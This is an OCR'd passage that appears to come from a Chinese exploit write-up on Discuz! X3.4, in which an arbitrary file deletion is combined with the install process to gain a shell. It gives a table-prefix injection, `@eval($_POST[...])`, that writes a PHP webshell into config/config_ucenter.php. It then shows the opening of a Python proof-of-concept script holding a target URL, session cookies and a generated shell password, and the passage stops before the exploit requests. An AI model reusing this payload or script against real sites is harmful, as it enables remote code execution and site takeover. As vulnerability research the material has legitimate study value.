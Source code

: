 安装过程修改表前缀内容为：`x');@eval($_POST[lanvnal]);('`

![](./resource/Discuz!X3.4任意文件删除配合install过程getshell/media/rId28.png)

在`config/config_ucenter.php`中已经写入了webshell。

![](./resource/Discuz!X3.4任意文件删除配合install过程getshell/media/rId29.png)

![](./resource/Discuz!X3.4任意文件删除配合install过程getshell/media/rId30.png)

### poc

    #!/usr/bin/env python3
    import base64
    import random
    import re
    import string

    import requests

    sess = requests.Session()
    randstr = lambda len=5: ''.join(random.choice(string.ascii_lowercase) for _ in range(len))

    ##################################################
    ########## Customize these parameters ############
    target = 'http://localhost/discuzx'
    # login target site first, and copy the cookie here
    cookie = "UM_distinctid=15bcd2339e93d6-07b5ae8b41447e-8373f6a-13c680-15bcd2339ea636; CNZZDATA1261218610=1456502094-1493792949-%7C1494255360; csrftoken=NotKIwodOQHO0gdMyCAxpMuObjs5RGdeEVxRlaGoRdOEeMSVRL0sfeTBqnlMjtlZ; Zy4Q_2132_saltkey=I9b3k299; Zy4Q_2132_lastvisit=1506763258; Zy4Q_2132_ulastactivity=0adb6Y1baPukQGRVYtBOZB3wmx4nVBRonRprfYWTiUaEbYlKzFWL; Zy4Q_2132_nofavfid=1; Zy4Q_2132_sid=rsQrgQ; Zy4Q_2132_lastact=1506787935%09home.php%09misc; 7Csx_2132_saltkey=U8nrO8Xr; TMT0_2132_saltkey=E3q5BpyX; PXMk_2132_saltkey=rGBnNWu7; b4Gi_2132_saltkey=adC4r05k; b4Gi_2132_lastvisit=1506796139; b4Gi_2132_onlineusernum=2; b4Gi_2132_sendmail=1; b4Gi_2132_seccode=1.8dab0a0c4ebfda651b; b4Gi_2132_sid=BywqMy; b4Gi_2132_ulastactivity=51c0lBFHqkUpD3mClFKDxwP%2BI0JGaY88XWTT1qtFBD6jAJUMphOL; b4Gi_2132_auth=6ebc2wCixg7l%2F6No7r54FCvtNKfp1e5%2FAdz2SlLqJRBimNpgrbxhSEnsH5%2BgP2mAvwVxOdrrpVVX3W5PqDhf; b4Gi_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; b4Gi_2132_creditbase=0D0D0D0D0D0D0D0D0; b4Gi_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; b4Gi_2132_lastcheckfeed=1%7C1506800134; b4Gi_2132_checkfollow=1; b4Gi_2132_lastact=1506800134%09misc.php%09seccode"
    shell_password = randstr()
    db_host = ''
    db_user = ''
    db_pw = ''
    db_name = ''
    #################################################

    path = '/home.php?mod=spacecp&ac=profile&op=base'
    url = target + path

    sess.headers.update({
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
        'Referer': url})
